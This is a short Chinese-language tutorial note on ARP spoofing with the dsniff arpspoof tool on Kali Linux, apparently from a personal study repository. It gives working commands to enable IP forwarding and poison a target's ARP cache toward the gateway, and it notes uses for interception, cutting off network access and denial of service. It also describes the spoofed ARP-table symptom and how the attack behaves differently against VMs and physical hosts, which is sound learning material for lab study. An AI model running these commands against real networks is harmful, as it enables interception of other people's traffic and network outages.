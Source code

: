 # arp欺骗(ipv4)-arpspoof
* ```
    ARP（Address Resolution Protocol）是一种用于将IP地址映射到物理MAC地址的协议。
    它在局域网中起到了重要的作用，使得网络设备可以通过IP地址找到对应的MAC地址，以便进行数据包的传输。
* [arp原理](./protocols/001-arp%E5%8E%9F%E7%90%86.md)
* arpspoof 欺骗就是发送`伪arp的响应包`，不断告诉受骗机 我就是目标主机，并传入自己的mac地址
* arp欺骗成功后，可以发动`中间人(MITM)攻击`,`断网攻击`,`dos(denial of service 拒绝服务)`

## arpspoof使用
* 安装
* ```
    # arpspoof只是dsniff中一个工具
    sudo apt-get update
    sudo apt-get upgrade、
    sudo apt-get intall dsniff
* ```
    # 在Kali Linux中，启用IP转发。
    echo 1 > /proc/sys/net/ipv4/ip_forward
    # 若设置为0 直接断网

* ```
    # 该命令会不断发送伪arp响应，告诉attack_ip我就是 gateway
    arpspoof -i eth0 -t attack_ip -r gateway
    # -i 表示对应网络接口，-t 要攻击的ip，-r 路由器ip(网关)
* ```
    # 特征
    # 受骗主机的arp 表将会两个相同mac的主机ip，
    # 一个是 gateway，一个是 kali，其中gateway的mac被篡改了

## 一些问题
### 使用kali虚拟机进行arp欺骗，对真机和对另外一台虚拟机的mac篡改是不同的
* 虚拟机被篡改的mac为kali的mac(虚拟网卡)
* 真机mac被篡改为kali所在主机的mac(真网卡)
